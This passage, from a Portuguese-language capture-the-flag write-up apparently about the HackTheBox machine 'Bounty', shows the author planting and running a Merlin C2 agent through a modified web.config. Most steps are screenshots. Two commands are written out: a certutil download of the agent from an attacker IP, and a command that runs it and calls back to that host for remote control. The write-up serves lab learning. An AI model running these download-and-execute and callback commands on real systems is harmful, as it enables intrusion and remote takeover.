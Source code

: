 Iniciamos o servidor

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin4.png)

Agora entramos na pasta /cmd/merlinagent e verificamos o agent que deverá ser executado pelo Bounty

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin5.png)

Alteramos o web.config para ele executar o web.config

Aqui utilizaremos o `certutil` para fazer download de arquivos remotos

> certutil -urlcache -split -f http://10.10.16.119/merlinagent.exe C:\\users\\public\\agent.exe

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin6.png)

Upamos no servidor

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_nish7.png)

Executamos ele 

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_nish8.png)

Verificamos que foi baixado

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin7.png)

Modificamos novamente o web.config, agora para executar o agent.exe que foi baixado

> cmd /c C:\Users\Public\agent.exe -url https://10.10.16.119:443/

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin8.png)

Upamos no servidor

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_nish7.png)

Executamos ele 

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_nish8.png)

Recebemos a conexão no Merlin Server

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin9.png)

Interagimos com a máquina invadida

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin10.png)

Com o help verificamos o que pode ser feito

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin11.png)
